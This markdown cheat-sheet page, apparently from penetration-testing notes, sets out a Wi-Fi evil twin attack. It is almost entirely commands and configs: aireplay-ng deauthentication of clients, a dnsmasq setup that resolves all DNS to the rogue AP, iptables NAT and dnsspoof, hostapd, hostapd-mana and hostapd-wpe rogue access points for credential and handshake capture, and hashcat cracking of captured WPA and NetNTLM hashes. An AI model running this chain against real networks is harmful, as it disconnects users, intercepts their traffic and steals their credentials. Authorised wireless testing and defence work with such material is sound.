

#wifi #evil-twin #rogue-ap #hostapd

# Wi-Fi Evil Twin Attacks

Manual rogue AP setup + credential capture. Related: [tools](tools.md) · [captive-portals](captive-portals.md) · [password-cracking](password-cracking.md) · [ntlm-relay](../AD/ntlm-relay.md)

## Contents
- [Deauth the Real AP](#deauth-the-real-ap)
- [DNS/DHCP + Routing](#dnsdhcp--routing)
- [Rogue AP (hostapd)](#rogue-ap-hostapd)
- [hostapd.conf snippets](#hostapdconf-snippets)
- [Crack Captured Creds](#crack-captured-creds)

## Attack Flow



## Deauth the Real AP
```bash
sudo aireplay-ng --deauth 5 -a D4:C1:8B:79:AD:45 -c 02:00:00:00:01:00 wlan0mon
```
Deauth a client (drop `-c` to deauth all).

> [!WARNING]
> Deauthenticating clients knocks them off the legitimate AP — it's disruptive and readily detected by wireless IDS/monitoring before they reassociate to the rogue AP.

## DNS/DHCP + Routing
```
interface=wlan1
dhcp-range=192.168.0.2,192.168.0.254,255.255.255.0,10h
dhcp-option=3,192.168.0.1
address=/#/192.168.0.1
```
dnsmasq config (dns.conf) — resolve everything to the rogue AP.

```bash
sudo dnsmasq -C dns.conf -d
```
Launch DNS/DHCP (set `wlan1 192.168.0.1/24` and enable `ip_forward` first).

```bash
sudo iptables --append POSTROUTING --table nat --out-interface eth0 -j MASQUERADE
```
NAT masquerade so clients reach the internet.

```bash
sudo dnsspoof -i wlan1
```
Redirect victim DNS to the attack host.

## Rogue AP (hostapd)
```bash
sudo hostapd hostapd.conf
```
Launch a standard rogue AP.

```bash
sudo hostapd-mana hostapd.conf
```
MANA rogue AP (karma-style cred harvesting).

```bash
sudo hostapd-wpe hostapd.conf
```
hostapd-wpe for WPA2-Enterprise/EAP credential capture.

## hostapd.conf snippets
```
# WPA2 handshake capture (MANA)
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_passphrase=anything
mana_wpaout=handshake.hccapx
```
Capture a handshake to a file via MANA.

## Crack Captured Creds
```bash
hcxpcapngtool handshake.pcap -o hash.22000
hashcat -a 0 -m 22000 hash.22000 /opt/wordlist.txt
```
Crack a captured WPA handshake. See [password-cracking](password-cracking.md).

```bash
hashcat -m 5500 -a 0 Administrator::::<netntlm> wordlist.dict
```
Crack a NetNTLM hash from EAP capture. See [hashcat](../Passwords/hashcat.md).
